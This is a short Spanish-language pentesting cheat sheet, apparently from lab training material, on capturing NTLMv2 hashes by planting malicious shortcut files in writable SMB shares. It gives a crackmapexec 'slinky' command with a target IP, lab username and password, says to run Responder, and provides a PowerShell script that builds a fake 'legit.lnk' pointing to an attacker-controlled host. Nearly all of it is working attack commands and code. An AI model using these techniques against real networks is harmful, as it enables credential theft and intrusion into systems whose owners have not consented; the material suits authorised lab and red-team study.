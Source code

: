 # Con crackmapexec

Podemos aprovechar el modulo slinky para crear de manera automática un lnk en todas las carpetas de la red en las que nuestro usuario tenga permiso de escritura

    crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M slinky -o SERVER=10.10.14.33 NAME=important

Luego corremos responder

# Manual

Si podemos subir un archivo a una carpeta smb, podemos crear un falso lnk que nos permita aprovechar a responder para envenenar el tráfico ntlmv2 

### Creacion del archivo

    $objShell = New-Object -ComObject WScript.Shell
    $lnk = $objShell.CreateShortcut("legit.lnk")
    $lnk.TargetPath = "\\IP-atacante\@pwn.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Browsing to the directory where this file is saved will trigger an auth 
    request."
    $lnk.HotKey = "Ctrl+Alt+O"
    $lnk.Save()


